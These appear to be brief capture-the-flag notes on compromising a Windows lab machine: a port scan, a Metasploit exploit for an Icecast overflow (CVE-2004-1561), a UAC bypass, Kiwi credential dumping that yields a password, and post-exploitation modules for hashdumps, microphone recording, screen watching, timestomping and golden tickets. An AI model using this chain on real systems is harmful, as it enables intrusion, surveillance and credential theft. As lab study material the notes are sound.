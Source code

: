 # BASIC INFO

```
ip_addr = 10.10.93.247

open port:
	135/tcp 		msrpc
	149/tcp 		nebios-ssn
	445/tcp 		microsoft-ds
	3389/tcp 		msrdp
	5357/tcp		http Microsoft HTTPAPI httpd 2.0
	8000/tcp		http Icecast
	49152-49154/tcp	msrpc
	49158-49160/tcp	msrpc

```

# GAIN ACCESS


> Icecast:
>> Exec code overflow
>> CVE-2004-1561


# EXPLOIT AND ESCALATE

```
msfconsole
use exploit/windows/http/icecast_header

run post/multi/recon/local_exploit_suggester

exploit/windows/local/bypassuac_eventvwr

```

# LOOTING

```

migrate -N spoolsv.exe

load kiwi

creds_all
```

> Dark's password = Password01!


# POST EXPLOITATION


> hashdump to dump all hash

> screenshare to watch remote user's desktop in real time

> record_mic to record with mic

> timestomp to modify timestamp

> golden_ticket_create to create a golden ticket that allows us to authenticate anywhere